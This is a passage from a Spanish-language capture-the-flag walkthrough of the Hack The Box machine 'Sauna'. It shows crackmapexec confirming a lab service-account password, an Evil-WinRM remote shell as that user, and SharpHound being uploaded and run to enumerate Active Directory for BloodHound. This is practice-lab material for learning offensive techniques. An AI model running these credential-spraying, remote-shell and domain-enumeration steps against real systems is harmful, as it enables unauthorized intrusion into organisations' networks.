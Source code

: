 Vamos a comprobar si es correcta esta contraseña para ese usuario:
```bash
crackmapexec smb 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
SMB         10.10.10.175    445    SAUNA            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\svc_loanmgr:Moneymakestheworldgoround!
```
Parece que sí funciona.

Entonces, debería funcionar con **WinRM**:
```bash
crackmapexec winrm 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
SMB         10.10.10.175    5985   SAUNA            [*] Windows 10 / Server 2019 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL)
HTTP        10.10.10.175    5985   SAUNA            [*] http://10.10.10.175:5985/wsman
WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\svc_loanmgr:Moneymakestheworldgoround! (Pwn3d!)
```

Muy bien, ya solo conectemos a ese usuario con **Evil-WinRM**:
```batch
evil-winrm -i 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> whoami
egotisticalbank\svc_loanmgr
```

<h2 id="BloodH">Enumeración de AD con BloodHound y SharpHound</h2>

Si enumeramos este usuario, no encontraremos mucho, por lo que ahora sí usaremos **BloodHound y SharpHound**.

Yo usare **BloodHound 4.3.1 y SharpHound 1.1.1**.

Carga **SharpHound** a la sesión de **Evil-WinRM**:
```batch
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents\BrkPrit> upload SharpHound.exe
                                        
Info: Uploading ../content/SharpHound.exe to C:\Users\svc_loanmgr\Documents\BrkPrit\SharpHound.exe
                                        
Data: 1402880 bytes of 1402880 bytes copied
                                        
Info: Upload successful!
```

Vamos a ejecutarlo:
```batch
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents\BrkPrit> .\SharpHound.exe -c All
2024-10-16T20:16:21.3520698-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-10-16T20:16:21.5395688-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-10-16T20:16:21.5708143-07:00|INFORMATION|Initializing SharpHound at 8:16 PM on 10/16/2024
2024-10-16T20:16:21.6958147-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for EGOTISTICAL-BANK.LOCAL : SAUNA.EGOTISTICAL-BANK.LOCAL
2024-10-16T20:16:33.7583765-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-10-16T20:16:33.9301887-07:00|INFORMATION|Beginning LDAP search for EGOTISTICAL-BANK.LOCAL
2024-10-16T20:16:33.9770668-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-10-16T20:16:33.9770668-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-10-16T20:17:04.3366184-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2024-10-16T20:17:28.8989489-07:00|INFORMATION|Consumers finished, closing output channel
```